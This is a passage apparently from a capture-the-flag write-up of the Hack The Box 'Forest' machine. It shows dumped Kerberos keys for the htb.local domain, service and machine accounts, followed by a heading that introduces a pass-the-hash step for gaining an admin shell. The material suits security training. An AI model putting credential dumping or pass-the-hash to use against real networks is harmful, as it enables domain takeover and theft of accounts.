 ```
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
FOREST$:aes256-cts-hmac-sha1-96:da885c62b099ffac9dddbba58bc07f15b536f3bfa6ef4966493318ebcc9fc199
FOREST$:aes128-cts-hmac-sha1-96:bad1659c1d23ae1a8b58466b3c246515
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```

### Pass the Hash(Pth) to have an admin shell 
